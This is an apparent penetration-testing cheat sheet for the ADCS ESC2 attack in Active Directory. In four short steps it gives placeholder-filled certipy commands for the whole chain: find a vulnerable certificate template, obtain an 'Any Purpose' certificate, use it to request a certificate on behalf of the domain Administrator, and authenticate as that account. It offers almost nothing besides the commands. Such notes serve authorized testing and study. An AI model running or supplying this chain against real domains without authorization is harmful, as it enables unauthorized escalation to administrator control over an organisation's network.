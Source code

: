 # ADCS ESC2

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. Get an “Any Purpose” cert (implicitly an agent)
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> -dc-ip <DC_IP> -dc-host <DC_HOST> -template <ESC2_ANYPURPOSE_TEMPLATE>
```

## 2b. Use it to request a cert **on behalf of** Administrator
```
certipy req -u <username> -p '<password>' -dc-ip <DC_IP> -target <CA_FQDN> -dc-host <DC_HOST> -ca <CA_NAME> -pfx <ADMIN_USER>.pfx -template <ESC2_ANYPURPOSE_TEMPLATE> -on-behalf-of '<domain>\\<ADMIN_USER>'
```

## 3. Authenticate
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP>
```
